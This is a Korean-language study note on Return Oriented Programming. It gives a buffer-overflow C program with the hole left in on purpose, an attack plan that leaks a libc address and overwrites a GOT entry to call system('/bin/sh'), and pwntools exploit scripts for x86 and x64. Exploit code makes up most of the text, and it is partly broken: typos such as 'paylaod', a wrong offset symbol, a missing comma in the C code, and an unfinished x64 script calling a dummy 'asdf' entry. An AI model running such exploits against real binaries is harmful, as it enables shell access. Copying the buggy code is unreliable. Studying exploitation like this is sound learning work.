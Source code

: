 # ROP(Retrun Oriented programing)

# x86

### 알아야 할 것

매개변수가 콜스택으로 넘겨짐

```c
#include<stdio.h>
int main(){
	int buf[0x100];
	read(0 buf, 0x200);
	write(1, buf, 0x200);
	return 0;
}
```

![Untitled](ROP(Retrun%20Oriented%20programing)%200f1c1063c7454e8e9b291bc6d5a5572e/Untitled.png)

32bit에서 원하는 매개변수를 가지고 원하는 함수를 호출하기 위해서는

pop을 하고 ret하는 가젯을 찾아야 한다.

파일 안에 symbols이 살아 있는 read 함수를 호출하고 싶다면 인자 매개변수가 3개이므로 pop를 3번하고 ret하는 가젯을 찾아야 하는 것이다.

### 공격 시나리오

1. write 함수로 read나 write함수의 주소를 출력한다.(system함수 주소를 얻기 위함) → main 새로 시작
2. read 함수로 쓰기권한이 있는 영역에 "/bin/sh" 문자열을 쓴다. ex) bss
3. read함수로 read나 write함수의 got에 system함수를 저장한다.
4. system함수로 /bin/sh를 실행한다.

### Exploit

```python
from pwn import *

p = process('./a.out')
e = ELF('./a.out')

pppr = 0x12345678 # pop; pop; pop; ret;
pr = 0x87654321 # pop; ret;

# Stage 1
payload = 'A'*0x100
payload += "AAAA"
payload += p32(e.plt['write'])
payload += p32(pppr)
payload += p32(1)
payload += p32(e.got['write'])
payload += p32(4)
payload += p32(e.symbols['main'])
p.send(payload)
leak = u32(p.recv()[-4:])

# Stage 2
payload = 'A'*0x100
payload += "AAAA"
payload += p32(e.plt['read'])
payload += p32(pppr)
payload += p32(0)
payload += p32(e.bss())
payload += p32(4)

# Stage 3
payload += p32(e.plt['read'])
payload += p32(pppr)
payload += p32(0)
payload += p32(e.got['write'])
payload += p32(4)

# Stage 4
payload += p32(e.plt['write'])
paylaod += p32(pr)
payload += p32(e.bss())

# Send
p.send(payload)
p.send('/bin/sh\x00')
p.send(p32(leak - e.symbols['read']))

p.interactive()
```

# x64

### 알야하 할것

64bit에서는 매개변수로 레지스터를 사용함

ex) rdi rsi rdx rcx

```c
#include<stdio.h>
int main(){
	int buf[0x100];
	read(0 buf, 0x200);
	write(1, buf, 0x200);
	return 0;
}
```

### 공격 시나리오

동일함

### Exploit

```python
from pwn import *

p = process('./a.out')
e = ELF('./a.out')

prdi # pop rdi; ret;
prsi # pop rsi; ret;
prdx # pop rdx; ret;

payload = 'A'*0x108
payload += p64(prdi)
payload += p64(1)
payload += p64(prsi)
payload += p64(2)
payload += p64(e.plt['asdf'])
payload += p64(8)
```
